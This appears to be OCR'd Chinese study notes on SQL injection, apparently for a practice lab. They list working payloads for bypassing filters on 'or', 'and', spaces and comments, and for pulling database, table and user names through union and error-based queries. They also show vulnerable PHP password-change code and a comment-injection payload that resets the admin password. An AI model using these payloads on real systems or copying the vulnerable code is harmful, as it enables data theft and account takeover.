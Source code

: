 参数# – 过滤

?id=1’ or ‘1’=’1

?id=1’ union select 1,database(),’3

select * from table1 where id=’1’ limit 0,1

select * from table1 where id=’ ‘ union select 1,database(),’3 ‘ limit 0,1

防火墙屏蔽or and

or = || = url编码

and = && = url编码

?id=2’ || extractvalue(1,(concat(0x7e,database(),0x7e))) || ‘1’=’1

------

屏蔽or and 空格 注释符

屏蔽-号
报错条件 0 20000000000

?id=2000000’%09union%09select%091,2,3%09||%09’1’=’1

------

如果哪天%的空格都不能用，不用空格
无空格写法
?id=1’||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)like(database())),0x7e),1))||’

------

最后一步
?id=1’||(updatexml(1,concat(0x7e,(select(username)from(users)where(id)like(1)),0x7e),1))||’

https://ma.ttias.be/projects/encoder/

------

## 越权漏洞

```
$old_pass = $_POST['old_pass'];
$new_pass1 = $_POST['new_pass1'];
$new_pass2 = $_POST['new_pass2'];

if($new_pass1==$new_pass2){
    
//执行修改密码
update users set password='$new_pass1' where username='admin' and password='$old_pass';
}

update users set password='123' where username='  admin' #   ' and password='$old_pass';

update users set password='123' where username='  admin'
```
